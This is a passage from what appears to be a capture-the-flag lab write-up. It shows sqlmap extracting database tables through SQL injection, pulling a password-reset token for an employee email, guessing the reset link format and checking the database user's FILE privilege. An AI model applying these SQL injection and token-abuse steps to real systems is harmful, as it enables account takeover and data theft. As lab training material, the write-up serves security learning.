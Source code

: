 The `password_reset` table returns empty (`-D employees -T password_reset --dump`):

```

[08:08:06] [INFO] fetching columns for table 'password_reset' in database 'employees'
[08:08:06] [INFO] fetching entries for table 'password_reset' in database 'employees'
[08:08:06] [WARNING] unable to retrieve the entries for table 'password_reset' in database 'employees'

```

#### Password Reset

Earlier, I found a login page and a password reset form, but I was unable to use it because I didn’t have any valid email addresses. If I enter one from the `employees` table above, it returns:

![image-20210707081233959](https://0xdfimages.gitlab.io/img/image-20210707081233959.png)

Now that’s in the DB as well:

```
+---------------------------+------------------------------------------------------------------+---------------------+
| email                     | token                                                            | expires             |
+---------------------------+------------------------------------------------------------------+---------------------+
| david.palmer@crossfit.htb | 9f1d6826985f0179ed38afd3d65b54a640659c9dc519174c08c66f65419f73b6 | 2021-07-04 13:18:24 |
+---------------------------+------------------------------------------------------------------+---------------------+

```

Earlier `feroxbuster` only found `index.php` and `password-reset.php`. I can guess that perhaps the link in the user’s email is to `password-reset.php` perhaps with the `token` as a parameter, which would look like `http://employees.crossfit.htb/password-reset.php?token=9f1d6826985f0179ed38afd3d65b54a640659c9dc519174c08c66f65419f73b6`. Unfortunately, it returns:

![image-20210707083044129](https://0xdfimages.gitlab.io/img/image-20210707083044129.png)

That does imply that I guessed the format of the link correctly. Changing the parameter name from `token` to something else just returns no message, which I suspect is because the script is checking for the existence of `token`. My best guess at this point is that the DB holds a hash of the token.

#### Privs

Another thing to check with `sqlmap` is the current user’s privileges with `--privileges`:

```

database management system users privileges:
[*] 'crossfit_user'@'localhost' [1]:
    privilege: FILE

```
